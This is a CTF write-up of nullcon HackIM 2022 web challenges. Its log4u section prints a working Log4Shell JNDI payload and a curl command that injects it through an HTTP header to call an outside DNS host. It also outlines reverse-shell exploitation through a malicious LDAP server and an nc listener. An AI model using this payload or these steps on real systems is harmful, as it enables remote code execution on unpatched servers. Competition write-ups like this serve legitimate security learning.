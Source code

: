 ```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: nullcon HackIM 2022 Web Writeups
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - nullcon HackIM 2022
  - CTF Jeo
tags:  
  - CTF
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# 0x1 log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)


## Identify log4shell vulnerability by triggering a DNS query
"The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered."

![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
### Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```

"CanaryTokens.org is an Open Source web app for this purpose that even generates the exploit string automatically and sends an email notification when the DNS is queried. Select Log4Shell from the drop-down menu. Then, embed the string in a request field that you expect the server to log. This could be in anything from a form input to an HTTP header. In our example above, the X-Api-Version header was being logged. This request should trigger it:"

```bash
curl $URL -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}'
```
![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)

## POC
[log4j shell poc](https://github.com/kozmer/log4j-shell-poc)

## Exploit Steps
- Generate a reverse shell java class(just modify the poc for forward attack)
- Upload the reverse shell java class in HTTP Server 
- Start malicious ldap server giving the HTTP Server URL for redirecting the victim
- Start nc listener for reverse shell

## Upload reverse shell 
![Screenshot_2022-04-08_23_47_51](https://user-images.githubusercontent.com/45040001/162830955-a74283af-35c7-454e-8a61-dd7534a3ff69.png)

## Final flag
![flag](https://user-images.githubusercontent.com/45040001/162826580-8d33dcae-e97f-4cdc-9679-749646111c9b.png)


# 0x2 texnology

[POC](https://0day.work/hacking-with-latex/)

![Screenshot 2022-04-09 040948](https://user-images.githubusercontent.com/45040001/162831563-36117819-1344-4196-afcc-3200b2cb6a43.png)
![flag](https://user-images.githubusercontent.com/45040001/162831557-7e81bc96-5c76-4b23-ae58-c2057730f618.png)

# 0x3 fil3serv3r

![path_escape](https://user-images.githubusercontent.com/45040001/162831826-38411b88-b19b-4550-b6ab-c218a34e8b10.png)

![flag](https://user-images.githubusercontent.com/45040001/162831828-1529c4d4-b02c-455e-9b7d-d5c0ccf095c2.png)


